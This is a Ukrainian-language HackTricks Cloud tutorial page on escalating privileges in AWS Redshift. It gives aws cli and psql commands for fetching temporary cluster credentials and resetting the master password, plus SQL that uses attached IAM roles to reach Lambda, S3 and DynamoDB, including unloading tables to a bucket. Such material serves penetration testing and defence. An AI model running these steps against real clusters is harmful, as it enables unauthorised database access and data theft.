 # AWS - Redshift Privesc

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію в рекламі HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) **і** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **репозиторіїв на GitHub**.

</details>

## Redshift

Для отримання додаткової інформації про RDS перегляньте:

{% content-ref url="../aws-services/aws-redshift-enum.md" %}
[aws-redshift-enum.md](../aws-services/aws-redshift-enum.md)
{% endcontent-ref %}

### `redshift:DescribeClusters`, `redshift:GetClusterCredentials`

З цими дозволами ви можете отримати **інформацію про всі кластери** (включаючи назву та ім'я користувача кластера) та **отримати облікові дані** для доступу до нього:

```bash
# Get creds
aws redshift get-cluster-credentials --db-user postgres --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAM:<username>" -d template1 -p 5439
```

**Потенційний вплив:** Знайти чутливу інформацію всередині баз даних.

### `redshift:DescribeClusters`, `redshift:GetClusterCredentialsWithIAM`

З цими дозволами ви можете отримати **інформацію про всі кластери** та **отримати облікові дані**, щоб отримати до них доступ.\
Зверніть увагу, що користувач postgres матиме **дозволи, які має ідентифікатор IAM**, який використовується для отримання облікових даних.

```bash
# Get creds
aws redshift get-cluster-credentials-with-iam --cluster-identifier redshift-cluster-1
# Connect, even if the password is a base64 string, that is the password
psql -h redshift-cluster-1.asdjuezc439a.us-east-1.redshift.amazonaws.com -U "IAMR:AWSReservedSSO_AdministratorAccess_4601154638985c45" -d template1 -p 5439
```

**Потенційний вплив:** Знайти чутливу інформацію всередині баз даних.

### `redshift:DescribeClusters`, `redshift:ModifyCluster?`

Можливо **змінити основний пароль** внутрішнього користувача postgres (redshit) з aws cli (я думаю, що це дозволи, які вам потрібні, але я ще не тестував їх):

```
aws redshift modify-cluster –cluster-identifier <identifier-for-the cluster> –master-user-password ‘master-password’;
```

**Потенційний вплив:** Знайти чутливу інформацію всередині баз даних.

## Доступ до зовнішніх сервісів

{% hint style="warning" %}
Для доступу до всіх наступних ресурсів вам потрібно **вказати роль для використання**. Кластер Redshift **може мати призначений список ролей AWS**, які ви можете використовувати, **якщо ви знаєте ARN**, або ви можете просто встановити "**default**" для використання призначеної ролі за замовчуванням.

Крім того, як [**пояснено тут**](https://docs.aws.amazon.com/redshift/latest/mgmt/authorizing-redshift-service.html), Redshift також дозволяє конкатенувати ролі (поки перша може припускати другу) для отримання додаткового доступу, просто **розділяючи** їх комою: `iam_role 'arn:aws:iam::123456789012:role/RoleA,arn:aws:iam::210987654321:role/RoleB';`
{% endhint %}

### Лямбди

Як пояснено в [https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html](https://docs.aws.amazon.com/redshift/latest/dg/r\_CREATE\_EXTERNAL\_FUNCTION.html), можливо **викликати функцію лямбди з redshift** з чимось на зразок:

```sql
CREATE EXTERNAL FUNCTION exfunc_sum2(INT,INT)
RETURNS INT
STABLE
LAMBDA 'lambda_function'
IAM_ROLE default;
```

### S3

Як пояснено в [https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html](https://docs.aws.amazon.com/redshift/latest/dg/tutorial-loading-run-copy.html), можливо **читати та записувати в бакети S3**:

```sql
# Read
copy table from 's3://<your-bucket-name>/load/key_prefix'
credentials 'aws_iam_role=arn:aws:iam::<aws-account-id>:role/<role-name>'
region '<region>'
options;

# Write
unload ('select * from venue')
to 's3://mybucket/tickit/unload/venue_'
iam_role default;
```

### Dynamo

Як пояснено в [https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html](https://docs.aws.amazon.com/redshift/latest/dg/t\_Loading-data-from-dynamodb.html), можливо **отримати дані з dynamodb**:

```sql
copy favoritemovies
from 'dynamodb://ProductCatalog'
iam_role 'arn:aws:iam::0123456789012:role/MyRedshiftRole';
```

{% hint style="warning" %}
Таблицю Amazon DynamoDB, яка надає дані, слід створити в тій же області AWS, що й ваш кластер, якщо ви не використовуєте параметр [REGION](https://docs.aws.amazon.com/redshift/latest/dg/copy-parameters-data-source-s3.html#copy-region), щоб вказати область AWS, в якій знаходиться таблиця Amazon DynamoDB.
{% endhint %}

### EMR

Перевірте [https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html](https://docs.aws.amazon.com/redshift/latest/dg/loading-data-from-emr.html)

## References

* [https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a](https://gist.github.com/kmcquade/33860a617e651104d243c324ddf7992a)

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити вашу **компанію рекламовану в HackTricks** або **завантажити HackTricks у PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв.

</details>
